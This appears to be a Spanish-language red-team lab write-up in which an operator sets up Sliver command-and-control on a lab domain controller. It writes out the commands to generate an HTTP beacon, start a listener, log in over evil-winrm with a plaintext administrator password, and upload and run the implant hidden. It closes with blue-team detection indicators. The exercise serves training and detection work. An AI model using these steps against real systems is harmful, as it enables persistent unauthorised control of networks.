

# C2 Establishment — Operación IRON FOREST
## Lab-04: Sliver beacon en DC-01 como ATACKCORP\Administrador

**Operación:** IRON FOREST | **Adversario:** APT28 (Fancy Bear) | **Fase:** 07 — C2 Establishment  
**Fecha:** 29/05/2026 | **Operador:** Adrián Camacho

---

## FASE 07 — C2 Establishment

### 7.1 Generación del beacon

```bash
# En consola Sliver
generate beacon --http 10.0.2.9 --os windows --arch amd64 \
  --name IRON_FOREST_DC01 --save /tmp/
```

**Output:**
```
[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Build completed in 3m8s
[*] Implant saved to /tmp/iron_forest_dc01.exe
```

---

### 7.2 Arrancar listener HTTP

```
http
```

**Output:**
```
[*] Starting HTTP :80 listener ...
[*] Successfully started job #2
```

**Nota:** El listener HTTP de Sliver conflicta con Responder en puerto 80. Parar Responder antes de arrancar el listener.

---

### 7.3 Deploy del beacon en DC-01

```bash
evil-winrm -i 10.0.2.10 -u 'Administrador' -p 'NuevaPassword2026!'
```

```powershell
upload "/tmp/iron_forest_dc01.exe" "C:\Windows\Temp\iron_forest_dc01.exe"
Start-Process "C:\Windows\Temp\iron_forest_dc01.exe" -WindowStyle Hidden
```

---

### 7.4 Checkin del beacon

```
[*] Beacon 6eda212b iron_forest_dc01 - 10.0.2.10:57222 (DC-01) - windows/amd64
    Fri, 29 May 2026 15:44:35 CEST
```

> 📸 Captura:
> 

---

### 7.5 Lista de beacons activos

```
beacons
```

| ID | Nombre | Hostname | Usuario | OS |
|---|---|---|---|---|
| be691c17 | EASY_PROFIT | WKSTN-01 | ATACKCORP\backup_svc | windows/amd64 |
| dc797c42 | SUDDEN_COMMUNICATION | PC-01 | thomas | windows/amd64 |
| 4d1146b0 | CLINICAL_CHAIRMAN | DC-01 | ATACKCORP\Administrador | windows/amd64 |
| **6eda212b** | **iron_forest_dc01** | **DC-01** | **ATACKCORP\Administrador** | **windows/amd64** |

> 📸 Captura:
> 

---

### 7.6 Detección — Blue Team

**Event IDs generados:**
- `4688` — Creación de proceso `iron_forest_dc01.exe` hijo de `evil-winrm`
- `3` (Sysmon) — Conexión de red saliente a 10.0.2.9:80

**Indicadores:**
- Ejecutable desconocido en `C:\Windows\Temp\`
- Conexión HTTP periódica a IP de red interna
- Proceso con nombre aleatorio haciendo beaconing

---

*Operación IRON FOREST — Adrián Camacho | 29/05/2026*